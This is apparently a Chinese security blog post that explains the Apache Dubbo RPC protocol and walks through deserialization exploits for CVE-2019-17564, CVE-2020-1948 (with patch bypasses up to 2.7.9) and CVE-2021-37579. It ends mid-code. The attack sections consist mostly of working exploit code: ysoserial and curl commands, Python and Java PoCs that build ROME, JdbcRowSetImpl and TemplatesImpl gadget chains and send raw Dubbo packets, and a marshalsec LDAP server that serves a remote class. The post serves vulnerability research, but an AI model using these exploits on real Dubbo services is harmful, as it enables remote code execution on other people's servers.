

# 0x01 What Is Dubbo

Apache Dubbo是一款阿里巴巴开源的轻量、高性能的Java RPC框架

随着微服务的盛行，除开服务调用之外，Dubbo也逐渐涉猎服务治理、服务监控、服务网关等，往Spring Cloud靠拢。

Dubbo RPC支持多种序列化方式：dubbo、hessian2、kryo、fastjson、java


* Provider：服务提供方
* Consumer：服务调用方
* Registry：服务注册与发现的注册中心
* Monitor：统计服务的调用次数和调用时间的监控中心
* Container：服务运行容器

服务过程：

1. `Container`启动`Provider`
2. `Provider`启动时，向注册中心注册自己提供的服务
3. `Consumer`启动时，向注册中心订阅自己需要的服务
4. 注册中心返回服务地址列表给`Consumer`，注册中心基于长连接推送变更数据给`Consumer`
5. `Consumer`根据服务地址列表，调用`Provider`的服务
6. `Consumer`和`Provider`定时给`Monitor`发送统计数据（调用次数和时间）

`Duubo`协议：

采用单一长连接和 NIO 异步通讯，适合于小数据量大并发的服务调用


- 连接个数：单连接
- 连接方式：长连接
- 传输协议：TCP
- 传输方式：NIO 异步传输
- 序列化：默认 `Hessian` 二进制序列化

头字段：16 bytes totally

1. 两个魔术字节（magic bytes）  `0xdabb`
2. 一个标志字节（flag byte）
   * Req/Res：请求包为1、返回包为0（1bit）
   * 2Way：标记是否期望从服务器返回值（1 bit）
   * Event：标记是否是事件消息（1bit）
   * Serialization ID：序列化类型（`Hessian2`、`Kryo`、`Java`）（5bits）
3. 一个状态字节（status）：Req/Res=0时有效（即返回包），标识响应状态（8 bits）
4. Request ID：标识唯一请求（64bits 8bytes）
5. Data Length：序列化后的内容长度 (32 bits 4bytes)

Variable Part：序列化后的内容

- Dubbo version
- Service name
- Service version
- Method name
- Method parameter types
- Method arguments
- Attachments


看一下`Dubbo`如何解析数据流的

`org.apache.dubbo.rpc.protocol.dubbo.DubboCountCodec#decode` => `ExchangeCodec#decode`


头字段校验通过后，开始解析整段数据流，有几个常量用于提取flag字节的每个位

* FLAG_REQUEST 0x80  -128  1000 0000
* FLAG_TWOWAY  0x40   64   0100 0000
* FLAG_EVENT   0x20   32   0010 0000
* SERIALIZATION_MASK 0x1F 31  0001 1111


接着封装了一个`DecodeableRpcInvocation`，用于后面解析远程调用

# 0x02 Quick Start

学习文档：[基于 Dubbo API 开发微服务应用 | Apache Dubbo](https://cn.dubbo.apache.org/zh-cn/overview/quickstart/java/api/)


Dubbo的注册中心官方推荐使用`Zookeeper`，默认端口2181

通过注册中心，服务消费者可以感知到服务提供者的连接方式，从而将请求发送给正确的服务提供者。

下载👉[Apache ZooKeeper](https://zookeeper.apache.org/releases.html)

`conf`下有一个`zoo_sample.cfg`配置文件，复制一份并改名为`zoo.cfg`才能生效

`Windows`系统到`bin`下面直接使用`zkServer.cmd`命令启动

## 3.x

直接跟着官方文档做

## 2.x

2.x版本基于配置文件：

```xml
<dependency>
    <groupId>org.apache.dubbo</groupId>
    <artifactId>dubbo</artifactId>
    <version>2.7.3</version>
</dependency>
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-api</artifactId>
    <version>1.7.30</version>
</dependency>
<dependency>
    <groupId>org.apache.curator</groupId>
    <artifactId>curator-framework</artifactId>
    <version>2.8.0</version>
</dependency>
<dependency>
    <groupId>org.apache.curator</groupId>
    <artifactId>curator-recipes</artifactId>
    <version>2.8.0</version>
</dependency>
```

Server：

```java
import org.springframework.context.support.ClassPathXmlApplicationContext;

public class Application {
    public static void main(String[] args) throws Exception {
        ClassPathXmlApplicationContext context = new ClassPathXmlApplicationContext("dubbo-provider.xml");
        context.start();
        System.in.read();
    }
}
```

dubbo-provider.xml：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:dubbo="http://dubbo.apache.org/schema/dubbo"
       xsi:schemaLocation="http://www.springframework.org/schema/beans        http://www.springframework.org/schema/beans/spring-beans-4.3.xsd        http://dubbo.apache.org/schema/dubbo        http://dubbo.apache.org/schema/dubbo/dubbo.xsd">

    <!-- 提供方应用信息，用于计算依赖关系 -->
    <dubbo:application name="demo-app"  />

    <!-- 使用zookeeper作为注册中心 -->
    <dubbo:registry address="zookeeper://127.0.0.1:2181"/>

    <!-- 用dubbo协议在20880端口暴露服务 -->
    <dubbo:protocol name="dubbo" port="20880" />

    <!-- 声明需要暴露的服务接口 -->
    <dubbo:service interface="demo.DemoService" ref="demoService" />

    <!-- 和本地bean一样实现服务 -->
    <bean id="demoService" class="demo.DemoServiceImpl" />
</beans>
```

Client：

```java
import demo.DemoService;
import org.springframework.context.support.ClassPathXmlApplicationContext;

public class Application {
    public static void main(String[] args) throws Exception {
        ClassPathXmlApplicationContext context = new ClassPathXmlApplicationContext("dubbo-consumer.xml");
        context.start();
        DemoService demoService = (DemoService)context.getBean("demoService"); // 获取远程服务代理
        String hello = demoService.sayHello("Dubbo~"); // 执行远程方法
        System.out.println( hello ); // 显示调用结果
    }
}
```

dubbo-consumer.xml：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:dubbo="http://dubbo.apache.org/schema/dubbo"
       xsi:schemaLocation="http://www.springframework.org/schema/beans        http://www.springframework.org/schema/beans/spring-beans-4.3.xsd        http://dubbo.apache.org/schema/dubbo        http://dubbo.apache.org/schema/dubbo/dubbo.xsd">

    <!-- 消费方应用名，用于计算依赖关系，不是匹配条件，不要与提供方一样 -->
    <dubbo:application name="consumer-of-demo-app"  />

    <dubbo:registry address="zookeeper://127.0.0.1:2181"/>

    <!-- 生成远程服务代理，可以和本地bean一样使用demoService -->
    <dubbo:reference id="demoService" interface="demo.DemoService" />
</beans>
```

# 0x03 Attack On Dubbo

## Ⅰ. HttpInvoker Deser Without Security Check

🚩**CVE-2019-17564**

影响版本：

1. 2.7.0 <= Apache Dubbo <= 2.7.4.1
2. 2.6.0 <= Apache Dubbo <= 2.6.7
3. Apache Dubbo = 2.5.x
4. Spring-Web <=  5.1.9.RELEASE

📍漏洞点：`Dubbo`使用http协议时，`Apache Dubbo`直接使用了Spring框架的`org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`类做远程调用，而这个过程会读取POST请求的Body并进行反序列化，最终导致漏洞。

`Spring HTTP invoker` 是Spring框架中的一个远程调用模型，执行基于HTTP的远程调用

在Spring文档中，对`HttpInvokerServiceExporter`有如下描述，并不建议使用：

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code execution on the server during the deserialization step. As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

2.7.5后Dubbo使用`com.googlecode.jsonrpc4j.JsonRpcServer`替换了`HttpInvokerServiceExporter`。

> 注：`Dubbo3`开始Http协议已经不再内嵌在`Dubbo`中，需要单独引入独立的模块。官方提供的样例👉`git clone https://github.com/apache/dubbo-samples.git`现在已经没有`dubbo-sample-http`🌿👊

`provider.xml`，指定了`dubbo:protocol`为`http`协议，否则默认为`dubbo`协议

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:dubbo="http://dubbo.apache.org/schema/dubbo"
       xsi:schemaLocation="http://www.springframework.org/schema/beans        http://www.springframework.org/schema/beans/spring-beans-4.3.xsd        http://dubbo.apache.org/schema/dubbo        http://dubbo.apache.org/schema/dubbo/dubbo.xsd">

    <!-- 提供方应用信息，用于计算依赖关系 -->
    <dubbo:application name="demo-app"  />

    <!-- 使用zookeeper作为注册中心 -->
    <dubbo:registry address="zookeeper://127.0.0.1:2181"/>

    <!-- 用dubbo协议在20880端口暴露服务 -->
<!--    <dubbo:protocol name="dubbo" port="20880" />-->
    <dubbo:protocol name="http" port="8666" server="jetty"/>

    <!-- 声明需要暴露的服务接口 -->
    <dubbo:service interface="demo.DemoService" ref="demoService" />

    <!-- 和本地bean一样实现服务 -->
    <bean id="demoService" class="demo.DemoServiceImpl" />
</beans>
```

```xml
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
    <dependency>
        <groupId>org.apache.dubbo</groupId>
        <artifactId>dubbo</artifactId>
        <version>2.7.3</version>
    </dependency>
    <dependency>
        <groupId>org.springframework</groupId>
        <artifactId>spring-web</artifactId>
        <version>4.3.16.RELEASE</version>
    </dependency>
    <dependency>
        <groupId>org.slf4j</groupId>
        <artifactId>slf4j-api</artifactId>
        <version>1.7.30</version>
    </dependency>
    <dependency>
        <groupId>org.apache.curator</groupId>
        <artifactId>curator-framework</artifactId>
        <version>2.8.0</version>
    </dependency>
    <dependency>
        <groupId>org.apache.curator</groupId>
        <artifactId>curator-recipes</artifactId>
        <version>2.8.0</version>
    </dependency>
    <dependency>
        <groupId>org.eclipse.jetty</groupId>
        <artifactId>jetty-server</artifactId>
        <version>9.4.14.v20181114</version>
    </dependency>
    <dependency>
        <groupId>org.eclipse.jetty</groupId>
        <artifactId>jetty-servlet</artifactId>
        <version>9.4.14.v20181114</version>
    </dependency>
</dependencies>
```

（vulhub上有这个环境，可以docker拉取把环境里的jar包拿出来放本地调试）

> java -jar ysoserial.jar CommonsCollections6 "calc" > 1.poc
>
> curl -XPOST --data-binary @1.poc http://127.0.0.1:8666/demo.DemoService

`org.apache.dubbo.remoting.http.servlet.DispatcherServlet#service`，跟`SpringMVC`的`DispatcherServlet`类似，根据访问URL决定交给哪个`handler`处理


`skeletonMap`获取`url`对应skeleton，这里的skeleton就是`Spring Web`提供的危险类`org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`

限制了只能是POST请求


`skeleton.handleRequest` -> `readRemoteInvocation` 即读取远程调用信息，也就是我们传过来的数据。

根据这个类的描述`Deserialize a RemoteInvocation object from the given InputStream.`可知道接下来要对输入流进行反序列化了。这里也创建了一个`ObjectInputStream`对象了。


`org.springframework.remoting.rmi.RemoteInvocationSerializingExporter#doReadRemoteInvocation`对我们传过来的参数进行反序列化，没有任何安全校验


> windows下powershell使用`ysoserial`生成payload会导致数据变化，换成cmd就正常了。否则反序列化的时候会报错
>
> `java.io.StreamCorruptedException: invalid stream header: FFFE08E1`
>
> 正常的原生序列化头部应该是`AC ED 00 05`

高版本放弃了`HttpInvokerServiceExporter`，而是采用`JsonRpcServer`，该类没有进行反序列化的危险操作


💦限制：

* 默认Dubbo通信方式是Dubbo协议，不是HTTP
* 需要知道目标Dubbo暴露的服务接口名（若目标`Zookeeper`存在未授权访问，可以找到接口名）
  `./zkCli -server target-ip:2181 `
  `ls /dubbo`

## Ⅱ. Service Not Found Deser Params Still

🚩CVE-2020-1948

影响版本：

1. Apache Dubbo 2.7.0 ~ 2.7.6
2. Apache Dubbo 2.6.0 ~ 2.6.7
3. Apache Dubbo 2.5.x 所有版本 (官方不再提供支持)。

📍漏洞点：Dubbo服务端不会对客户端传入的调用服务名及参数进行检查，即使在服务端未找到对应的服务名，也会对客户端传入的参数进行反序列化操作

Dubbo默认使用的还是`Hessian`反序列化。

（如果用的`Spring-Boot`搭建，`dubbo-spring-boot-starter 2.7.3`没有`@DubboService`注解，换成`@Service`就好了；`DubboReference`同理）

先来看看`Dubbo Provider`接收到请求后的处理流程是咋样的

书接上文，dubbo协议头部校验通过后，对整块输入流进行解析，封装了一个`DecodeableRpcInvocation`对象来解码调用（`decode`）


根据dubbo协议头的序列化标记位决定使用哪种序列化方式。


Dubbo支持的序列化方法还挺多的，包括`Gson`、`FastJson`、`Hessian`、`Kryo`、`Fst`

默认的序列化方式为`Hessian`


`Hessian2Serialization#deserialize`实例化了一个`Hessian2ObjectInput`返回

接着从输入流读取如下内容：

* `Dubbo`协议版本 （dubboVersion：`3.7.6`）
* 请求的服务路径  （path：`demo.DemoService`）
* 远程调用的方法名  （setMethodName：`sayHi`）
* 远程调用的方法参数类型 （desc：`Ljava/lang/String;`）


从`ServiceRepository`查找是否存在要调用的服务，并获取服务方法对应的参数类型和返回类型。


如果没有找到对应的服务，把从输入流读入的参数类型赋给`pts`

找不到服务理应退出函数、抛出异常等处理，但它继续解析下去了，根据参数类型对参数进行反序列化（这里是`Hessian2ObjectInput#readObject(Class<?> cl)`）


接着到了`org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectInput#readObject`，注意看这个包不是`caucho`的了

阿里魔改了`Hessian`，但主要逻辑没变，还是熟悉的味道。


`Dubbo`下的`Hessian`删掉了`UnsafeDeserializer`，将`JavaDeserializer`作为默认的反序列化器


`JavaDeserializer`获取类的实例对象是通过调用类的构造器来实例化对象的，从`JavaDeserializer`构造方法中发现，会选择参数和其权重最小的构造器。再通过反射给实例对象赋值。

`JavaDeserializer#readObject` 先实例化对象再反射赋值

```java
public class JavaDeserializer extends AbstractMapDeserializer {
    public Object readObject(AbstractHessianInput in, String[] fieldNames)
        throws IOException {
        try {
            Object obj = instantiate();  // 实例化对象
            return readObject(in, obj, fieldNames);  // 反射赋值
        }  // ....
    }
    protected Object instantiate()
            throws Exception {
        try {
            if (_constructor != null)
                return _constructor.newInstance(_constructorArgs);
            else
                return _type.newInstance();
        } // ....
    }
    public Object readObject(AbstractHessianInput in,
                             Object obj,
                             String[] fieldNames)
            throws IOException {
        try {

            for (int i = 0; i < fieldNames.length; i++) {
                String name = fieldNames[i];
                FieldDeserializer deser = (FieldDeserializer) _fieldMap.get(name);
                if (deser != null)
                    deser.deserialize(in, obj);
                else
                    in.readObject();
            }

            Object resolve = resolve(obj);
            return resolve;
        } // .....
    }
        private Object resolve(Object obj)
            throws Exception {
        // if there's a readResolve method, call it
        try {
            if (_readResolve != null)
                return _readResolve.invoke(obj, new Object[0]);
        } // ....
        return obj;
    }
}
```

反序列化得到对象后，有两种利用方式，见下

### Exported Service Not Found -> toString

回到``org.apache.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation#decode`` -> `decodeInvocationArgument`


如果当前传输的是一个回调函数，那么 `Dubbo` 会在客户端创建一个代理对象，并将代理对象传输给服务端。在服务端调用回调函数时，会将回调函数的代理对象传输回客户端，并通过代理对象来调用客户端的回调函数接口。在这个过程中，`Dubbo` 需要从channel中获取 URL 和环境等信息，并将其用于反序列化和执行回调函数。回调函数机制可以让服务端通过回调函数的代理对象来调用客户端的回调函数接口，实现双向通信。


找不到对应的服务，抛出异常。`inv`是`DecodeableRpcInvocation`的实例对象

字符串拼接时会触发其`toString()`方法

实际上这时候`DecodeableRpcInvocation`的`arguments`成员还是空的


`decode argument`之后才`setArguments`，见下面调用栈


接下来就是`ROME`利用链的核心了

`toStringBean#toString`->`getter` -> `JdbcRowSetImpl#getDatabaseMetaData` -> `InitialContext#lookup `

忘了的话回去看看。

POC：

```python
# pip install dubbo-py
from dubbo.codec.hessian2 import Decoder, new_object
from dubbo.client import DubboClient

client = DubboClient('127.0.0.1', 20880)

JdbcRowSetImpl = new_object(
    'com.sun.rowset.JdbcRowSetImpl',
    dataSource="ldap://127.0.0.1:8099/aaa",
    strMatchColumns=["foo"]
)
JdbcRowSetImplClass = new_object(
    'java.lang.Class',
    name="com.sun.rowset.JdbcRowSetImpl",
)
toStringBean = new_object(
    'com.rometools.rome.feed.impl.ToStringBean',
    beanClass=JdbcRowSetImplClass,
    obj=JdbcRowSetImpl
)

resp = client.send_request_and_return_response(
    service_name='com.evil',
    method_name='rce',
    args=[toStringBean])

print(resp)
```

> java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#calc 8099
>
> python -m http.server 8000

### Hessian deserialization

上面是利用找不到服务抛出异常，打印异常信息时触发了`toString`

虽然找不到服务，但`Dubbo`仍然对我们传递的参数进行反序列化，这就可以利用`Hessian`反序列化的打法了。

`MapDeserializer#readMap`会进行`map.put`操作，进而触发`key.hashCode()`

> 踩坑记录：
>
> 🕒Dubbo`默认反序列化器`JavaDeserializer`的问题。
>
> 之前Rome利用链里加了`ObjectBean`（`ObjectBean`是多余的），其构造器会初始化`equalsBean`，`new EqualsBean(beanClass, obj);`，而传入的参数都是`null`，`EqualsBean`这个构造器会抛出`NullPointer`异常
>
> 果然还是验证了奥卡姆剃刀原则——Entities should not be multiplied unnecessarily
>
> 如无必要，勿增实体👊
>
> 
>
> 🕓一开始我`Duubo Consumer`配置的是去`ZooKeeper`查询服务，用上面那种方法打的话，`Zookeeper`直接给你返回找不到服务了，就没有后文了。。。。实际上`Consumer`可以直接找`Provider`
>
> ```xml
> <dubbo:reference interface="org.apache.dubbo.springboot.demo.DemoService" id="DemoService"  timeout="2000" check="false" url="dubbo://localhost:20880"/>
> ```

```java
package org.apache.dubbo.springboot.demo.consumer;

import java.lang.reflect.Field;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;

import java.util.HashMap;

import org.apache.dubbo.config.annotation.Reference;
import org.apache.dubbo.springboot.demo.DemoService;
import org.springframework.boot.CommandLineRunner;
import org.springframework.stereotype.Component;

@Component
public class Task implements CommandLineRunner {
    @Reference
    private DemoService demo;

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    @Override
    public void run(String... args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:8099/aaa");

        ToStringBean bean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);
        EqualsBean fakeBean = new EqualsBean(String.class, "p4d0rn");  // 传入无害的String.class
        HashMap map = new HashMap();
        map.put(fakeBean, 1);  // 注意put的时候也会执行hash
        setFieldValue(fakeBean, "obj", bean);

        String result = demo.sayHello(map);
    }
}
```

过程就不分析了，和上面一样，后半段就是`Hessian`和`Rome`的了。

### Patch ByPass

#### 2.7.7

`2.7.7`在`org.apache.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation#decode`中增加了如下判断

```java
if (pts == DubboCodec.EMPTY_CLASS_ARRAY) {
    if (!RpcUtils.isGenericCall(path, getMethodName()) && !RpcUtils.isEcho(path, getMethodName())) {
        throw new IllegalArgumentException("Service not found:" + path + ", " + getMethodName());
    }
    pts = ReflectUtils.desc2classArray(desc);
}    
public static boolean isGenericCall(String path, String method) {
    return $INVOKE.equals(method) || $INVOKE_ASYNC.equals(method);
}
public static boolean isEcho(String path, String method) {
    return $ECHO.equals(method);
}
```

`pts`是方法参数类型的数组，找到服务接口和方法才会给它赋值，为空说明找不到服务接口或方法

此时若方法名不为`$invoke`，`$invokeAsync`，`$echo`其中一个，则抛出异常

把POC中的方法名修改一下就能打了
```python
from dubbo.codec.hessian2 import new_object
from dubbo.client import DubboClient

client = DubboClient('127.0.0.1', 20880)

JdbcRowSetImpl = new_object(
    'com.sun.rowset.JdbcRowSetImpl',
    dataSource="ldap://127.0.0.1:8099/aaa",
    strMatchColumns=["foo"]
)
JdbcRowSetImplClass = new_object(
    'java.lang.Class',
    name="com.sun.rowset.JdbcRowSetImpl",
)
toStringBean = new_object(
    'com.sun.syndication.feed.impl.ToStringBean',
    _beanClass=JdbcRowSetImplClass,
    _obj=JdbcRowSetImpl
)

resp = client.send_request_and_return_response(
    service_name='com.evil',
    method_name='$invoke',
    args=[toStringBean])

print(resp)
```

#### 2.7.8

##### expect String 2 readObject

`2.7.8`的`isGenericCall`和`isEcho`要求更严格了，需要参数类型为`Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;`或`Ljava/lang/Object;`

```java
public static boolean isGenericCall(String parameterTypesDesc, String method) {
    return ("$invoke".equals(method) || "$invokeAsync".equals(method)) && "Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;".equals(parameterTypesDesc);
}

public static boolean isEcho(String parameterTypesDesc, String method) {
    return "$echo".equals(method) && "Ljava/lang/Object;".equals(parameterTypesDesc);
}
```

回到`DecodeableRpcInvocation#decode`的代码

`in.readUTF()`读取了`Dubbo`的版本信息

```java
public String readUTF() throws IOException {
    return mH2i.readString();
}
```

调用`Hessian2Input#readString`，读取`tag`位，非`String`类型会抛出异常

`throw expect("string", tag);`

`expect`异常为打印错误信息，会反序列化对象，跟进`readObject`



和`Hessian`那节一样，读取标志位`tag`，根据`tag`选择不同的反序列化器，若`tag`等于72，就对应上`MapDeserializer`，调用`raadMap`触发`map.put()` => `key.hashCode`

因此我们可以通过控制最开始的数据流内容为序列化的`HashMap`对象，这样在读取版本信息的时候就会触发我们的恶意调用链。

```java
package org.apache.dubbo.springboot.demo.consumer;

import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Cleanable;
import org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectOutput;

import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;

public class Attack {

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static Object getPayload() throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:8099/aaa");

        ToStringBean bean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);
        EqualsBean fakeBean = new EqualsBean(String.class, "p4d0rn");  // 传入无害的String.class
        HashMap map = new HashMap();
        map.put(fakeBean, 1);  // 注意put的时候也会执行hash
        setFieldValue(fakeBean, "obj", bean);
        return map;
    }

    public static void main(String[] args) throws Exception {
        byte[] header = new byte[16];
        Bytes.short2bytes((short) 0xdabb, header);
        header[2] = (byte) ((byte) 0x80 | 2);
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);
        out.writeObject(getPayload());

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }
        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());
        byte[] bytes = byteArrayOutputStream.toByteArray();

        Socket socket = new Socket( "127.0.0.1", 20880) ;
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush() ;
        outputStream.close();
    }
}
```

这里会弹出两次计算器，原因是`Object obj = readObject();`之后打印异常信息时拼接了`obj`，触发`toString`

```java
// HashMap
public final String toString() { return key + "=" + value; }
```

##### Event flag 2 readObject

开头讲Duubo解析头字段时，会读取一些flag位


如果`event`位为1，进入`decodeEventData` -> `in.readEvent()` 里面调用了`readObject`

因此我们修改`flag`字节的`event`位为1即可

```java
byte[] header = new byte[16];
Bytes.short2bytes((short) 0xdabb, header);  //  魔术字节 标识dubbo协议 2字节short
header[2] = (byte) ((byte) 0x80 | 0x20 | 2);   // 1010 0010 一个标志字节
Bytes.long2bytes(new Random().nextInt(100000000), header, 4);   // Request ID 8字节long
```

#### 2.7.9

`decodeEventData`多了序列化长度的限制（50字节），超过就会抛出异常，这使得上面第二个方法`Event flag 2 readObject`很难利用（上面的payload长度为616字节，除非你能构造足够短的序列化流）


但上面的`expect String 2 readObject`仍可以打，`2.7.13`前的都可以打

## Ⅲ. Consumer Specified Deserialization

前面讲`Dubbo`协议时，说到`Dubbo`数据流中有个标志字节，可以指定序列化类型（5 bits）。

`Dubbo`支持很多序列化方案，如`hessian2、kryo、json、native-java、fastjson、gson`，默认的序列化方案是`Hessian`，之前讲`Hessian`的时候就发现`Hessian`比原生java反序列化有更多利用限制。既然`Consumer`可以自定义反序列化方法，那当然选择原生的java反序列化才有更大的利用空间。

官方当然也发现了这个问题，在`2.6.10.1`就引入了一个属性`serialization.security.check`来避免`Consumer`指定`Provider`的反序列化方式

`Duubo`启动类添加如下设置

```java
System.setProperty("serialization.security.check", "true");
```

🚩**CVE-2021-37579**

影响版本：

* 2.7.x～2.7.12
* 3.0.x ~ 3.0.1

📌漏洞点：`Dubbo Provider`会检查传入的请求，并且确保该请求的相应序列化类型符合服务器配置。但攻击者可以绕过该安全检查并使用原生的Java序列化机制触发反序列化动作。

和上面的分析流程一样，`DecodeHandler#received`接收到请求，后续交给`DecodeableRpcInvocation#decode`处理


由于启动类设置了系统属性`serialization.security.check`，这里会进入判断


> 多说一句，这里传入的序列化id是`DecodeableRpcInvocation`的属性`serializationType`
>
> 其构造函数会给`serializationType`赋值
>
> 
>
> 还记得哪里读取Dubbo数据流吗👉`DubboCodec#decodeBody`
>
> 

如果我们在构造Dubbo请求的时候，指定`version`为一个不存在的值

`ProviderModel providerModel = repository.lookupExportedServiceWithoutGroup(path + ":" + version);`找不到对应的`provider model`，就不会进入`else`去比对序列化id

`providerModel == null`会打印警告日志，不影响代码正常执行


```java
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.dubbo.common.io.Bytes;

import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.net.Socket;
import java.util.HashMap;

public class Attack {

    protected static final int HEADER_LENGTH = 16;
    protected static final short MAGIC = (short) 0xdabb;
    protected static final byte FLAG_REQUEST = (byte) 0x80;
    protected static final byte FLAG_TWOWAY = (byte) 0x40;
    protected static final byte FLAG_EVENT = (byte) 0x20;

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static Object getPayload() throws Exception {
        byte[] code = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "p4d0rn");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        ToStringBean bean = new ToStringBean(Templates.class, obj);
        EqualsBean fakeBean = new EqualsBean(String.class, "p4d0rn");
        HashMap map = new HashMap();
        map.put(fakeBean, 1);
        setFieldValue(fakeBean, "obj", bean);
        return map;
    }

    public static void main(String[] args) throws Exception {
        /*
            bit                      byte
        0-7: Magic High            header[0]
        8-15：Magic Low            header[1]
        16：Req/Res               |
        17：2way                  |
        18：Event                 | header[2]
        19-23：Serialization      |
        24-31：status              header[3]
        32-95：id                  header[4-11]
        96-127：body               header[12-14]
        */
        // header.
        byte[] header = new byte[HEADER_LENGTH];
        // set magic number.
        Bytes.short2bytes(MAGIC , header);
        // set request and serialization flag.
        // 2 -> "hessian2"
        // 3 -> "java"
        // 4 -> "compactedjava"
        // 6 -> "fastjson"
        // 7 -> "nativejava"
        // 8 -> "kryo"
        // 9 -> "fst"
        // 10 -> "native-hessian"
        // 11 -> "avro"
        // 12 -> "protostuff"
        // 16 -> "gson"
        // 21 -> "protobuf-json"
        // 22 -> "protobuf"
        // 25 -> "kryo2"
        boolean isResponse = false;
        boolean okResponse = true;
        header[2] = (byte) (FLAG_REQUEST | 3);  // java
        // set request id.
        Bytes.long2bytes(666, header, 4);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);

        /* For Requests, we need to encode the following objects
          1.dubboVersion
          2.path
          3.version
          4.methodName
          5.methodDesc
          6.paramsObject
          7.map
        */
        oos.writeInt(666);
        oos.writeUTF("2.7.9");
        oos.writeInt(666);
        oos.writeUTF("org.apache.dubbo.springboot.demo.DemoService");
        oos.writeInt(666);
        oos.writeUTF("9.9.9");    // 不存在的version
        oos.writeInt(666);
        oos.writeUTF("sayHello");
        oos.writeInt(666);
        oos.writeUTF("Ljava/lang/String;");
        oos.writeByte(666);
        Object o = getPayload();
        oos.writeObject(o);

        // write length of body into header
        Bytes.int2bytes(baos.size(), header, 12);
        System.out.println(baos.size());

        // write header into OS
